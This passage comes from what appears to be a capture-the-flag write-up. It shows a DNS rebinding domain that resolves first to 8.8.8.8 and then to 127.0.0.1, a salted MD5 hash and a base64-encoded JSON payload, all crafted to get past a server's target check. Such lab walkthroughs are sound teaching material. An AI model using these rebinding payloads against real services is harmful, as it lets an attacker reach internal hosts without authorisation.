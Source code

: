 There are many DNS rebinding tools, but I will be using a free online tool at [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html). I set the initial IP to `8.8.8.8` and the updated IP to `127.0.0.1`. The output is a domain name that will do the DNS rebinding for us: `08080808.7f000001.rbndr.us`.

<p align="center">
  <img src="screenshots/attack-box-3.png" style="width:90%; border:0.5px solid black">
</p>

Remember, we have to generate a valid `hash` for our `target` value, which must utilize the salt `mrgrinch463`:
```
String: 08080808.7f000001.rbndr.us
Salt  : mrgrinch463

MD5 hash: abc91b3762573a4da0874ecd0aacb61e
```

Preparing the base-64 encoded `payload` of the `target` address with the `hash`:
```bash
$ echo '{"target":"08080808.7f000001.rbndr.us","hash":"abc91b3762573a4da0874ecd0aacb61e"}' | base64 -w 0; echo

eyJ0YXJnZXQiOiIwODA4MDgwOC43ZjAwMDAwMS5yYm5kci51cyIsImhhc2giOiJhYmM5MWIzNzYyNTczYTRkYTA4NzRlY2QwYWFjYjYxZSJ9Cg==
```
